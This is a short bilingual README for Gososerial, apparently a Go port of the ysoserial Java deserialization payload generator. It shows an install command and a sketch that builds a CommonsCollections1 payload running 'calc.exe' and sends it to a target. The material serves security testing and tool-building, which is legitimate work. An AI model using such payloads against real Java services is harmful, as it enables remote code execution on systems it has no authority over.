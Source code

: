 # Gososerial

## 介绍

- ysoserial是java反序列化安全方面著名的工具
  
- 无需java环境，无需下载ysoserial.jar文件
  
- 输入命令直接获得payload，方便编写安全工具 

## Introduce

- Ysoserial is a well-known tool for Java deserialization security

- No Java environment and no need to download ysoserial.jar file

- Enter the command to directly obtain the payload, which is convenient for writing security tools

## Quick Start

```shell
go get github.com/EmYiQing/Gososerial
```

```go
package main

import (
	"github.com/EmYiQing/Gososerial"
	"net/http"
)

func main()  {
	payload := Gososerial.GetCC1("calc.exe")
	....
	sendPayload(payload)
	......
}
```

## Example

![](https://github.com/EmYiQing/Gososerial/blob/master/img/1.png)